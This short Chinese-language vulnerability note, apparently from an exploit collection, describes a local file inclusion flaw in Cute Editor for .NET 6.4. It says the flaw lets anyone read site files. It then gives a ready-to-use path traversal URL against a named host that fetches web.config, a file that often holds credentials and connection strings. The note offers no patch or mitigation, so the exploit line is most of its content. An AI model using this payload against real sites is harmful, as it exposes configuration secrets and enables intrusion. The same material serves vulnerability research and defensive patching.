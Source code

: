 ### Cute Editor在线编辑器本地包含漏洞

影响版本:
CuteEditor For Net 6.4
脆弱描述：
可以随意查看网站文件内容，危害较大。
攻击利用:
http://navisec.it/CuteSoft_Client/CuteEditor/Load.ashx?type=image&file=../../../web.config